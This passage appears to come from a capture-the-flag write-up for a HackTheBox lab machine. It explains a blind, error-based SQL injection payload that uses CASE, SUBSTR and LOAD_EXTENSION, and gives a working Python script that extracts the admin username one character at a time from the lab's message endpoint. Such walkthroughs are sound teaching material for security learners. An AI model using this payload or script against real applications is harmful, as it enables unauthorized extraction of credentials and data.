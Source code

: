 Extracting the admin's `secret` might bring us one step closer to successfully logging in as the admin.

## SQL Injection

As only errors are returned, I originally attempted to trigger my own custom errors. In the end, though, I went for a boolean-based blind SQLi payload.

### Payload Formation

After a big of tampering, I finished on this payload:

```
yes') UNION SELECT CASE SUBSTR(username,0,1) WHEN 'a' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--
```

* `CASE` tests the specific thing we give it
* `SUBSTR(username,0,1)` grabs the first character of the username
* `WHEN 'a'` is the other part of `CASE` - if the value, in this case the result of `SUBSTR()` is `a`, it'll then run `LOAD_EXTENSION('b')`. If not, it essentially does nothing.
* `LOAD_EXTENSION('b')` is just there to trigger the error if the first characters is `a` as there is likely to be no extension with the name `b`

### Extracting the admin username

We can assume the username is `admin`, but we should make sure.

We'll loop through `username` with every printable character and see if it matches. Note that it will also match `guest`, so there'll be **two** matches. The way I'll fix this is I'll print it out only if it's not the corresponding letter in the word `guest` and hope there are no common letters, although there's probably a better way.

If we find a match, we add it to the known string and go again.

```python
from requests import post
from string import printable

guest = 'guest_________'        # if len(username) > 5 to get no index errors
name = ""

i = 0

for i in range(10):            # assuming it's a maximum of 10 long
    for char in printable:
        message = f"yes') UNION SELECT CASE SUBSTR(username,{i + 1},1) WHEN '{char}' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--"

        data = {'message': message}

        r = post('http://intense.htb/submitmessage', data=data)

        if r.text == "not authorized":
            if char != guest[i]:
                name += char
                print(f"char found: {char}")
print(name)
```
